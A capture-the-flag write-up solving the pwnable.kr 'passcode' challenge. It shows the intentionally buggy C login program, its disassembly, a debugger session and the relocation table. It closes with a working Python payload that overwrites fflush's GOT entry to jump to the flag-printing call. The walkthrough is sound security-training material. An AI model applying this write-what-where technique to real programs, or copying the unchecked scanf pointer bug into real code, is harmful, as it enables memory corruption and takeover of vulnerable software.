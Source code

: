 # passcode
The fifth challenge from pwnable.kr

## Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

`ssh passcode@pwnable.kr -p2222` (pw:guest)

## Solution

After ssh, we see the following:

```sh
ls -lh
```

```
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7.4K Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```

We can see that executes with suid bit of passcode_pwn, which would allow it to open flag.

Let's try to compile the source code to see what warning they're talking about.

```sh
gcc passcode.c
```

```
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
  scanf("%d", passcode1);
  ^
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
         ^
```

If we try to run the program, we get the following:

```sh
./passcode
```

```
Toddler's Secure Login System 1.0 beta.
enter you name : Fuck
Welcome Fuck!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault
```

Source code is provided again in this challenge, let's take a look at it.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

The disassembly gives us more insight on which memory addresses are being used during the passcode comparisons.

```asm
80485c5:	81 7d f0 e6 28 05 00 	cmpl   $0x528e6,-0x10(%ebp)
80485cc:	75 23                	jne    80485f1 <login+0x8d>
80485ce:	81 7d f4 c9 07 cc 00 	cmpl   $0xcc07c9,-0xc(%ebp)
80485d5:	75 1a                	jne    80485f1 <login+0x8d>
80485d7:	c7 04 24 a5 87 04 08 	movl   $0x80487a5,(%esp)
80485de:	e8 6d fe ff ff       	call   8048450 <puts@plt>
80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

Let's see what the stack looks like if we fill name[100].

```sh
pwndbg ./passcode
```

```
pwndbg> b *0x80485c5
Breakpoint 1 at 0x80485c5
```

```
pwndbg> r
Starting program: /home/ctf/challenges/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : a
enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()
```

```
pwndbg> x/4wx $ebp-0x10
0xff925418:	0x61616161	0xbf99e000	0x00000000	0x00000000
```

Part of our buffer is reused in the stack of login(), particularly the memory address of passcode1 which is `-0x10(%ebp)`.

`scanf("%d", passcode1)` is not dereferencing passcode1, which means scanf will load an address and write a value there instead.

So let's write an address with the last 4 bytes during `scanf("%100s", name)`, then overwrite with a value of our own during `scanf("%d", passcode1)`.

One thing we can do, since this code is dynamically linked, is overwrite a reloc in the PLT so that our code jumps where we want when that call is made.

```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts
0804a010  00000507 R_386_JUMP_SLOT   00000000   system
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf
```

`fflush(stdin)` is conveniently called right after our second scanf, and also has neither whitespace/null hex value representations in its address, so let's use that.

`80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)` is where we want to jump to.

We pad our buffer with 96 bytes, then the address of fflush, `0x0804a004`, then the address we want to jump to when fflush is eventually called, in int representation, `134514147`.


### Capturing the Flag

```sh
passcode@ubuntu:~$ python -c "print('a'*96+'\x04\xa0\x04\x08\n134514147\n10\n')" > /tmp/passcode.input
passcode@ubuntu:~$ ./passcode < /tmp/passcode.input
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
